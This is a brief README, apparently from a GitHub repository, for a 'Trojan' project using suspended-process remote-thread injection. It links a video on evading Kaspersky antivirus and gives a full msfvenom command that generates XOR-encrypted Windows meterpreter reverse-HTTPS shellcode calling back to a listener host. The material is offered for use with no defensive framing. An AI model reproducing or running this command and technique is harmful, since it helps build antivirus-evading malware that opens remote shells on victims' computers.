 # RemoteThreadSuspendedprocessInjection
Trojan Solutionfile

watch my youtube video "beat kaspersky free antivirus" https://youtu.be/BX6b_rjHc6k

to generate shellcode;
msfvenom -p windows/meterpreter/reverse_https lhost=192.168.56.1 lport=4444 -f csharp --encrypt xor --encrypt-key ARICAHACKON

![Remotethreadsuspendedprocessinjection](https://user-images.githubusercontent.com/121404035/212499326-558b0239-af4c-47e8-9f8a-3e3290b0ca35.png)
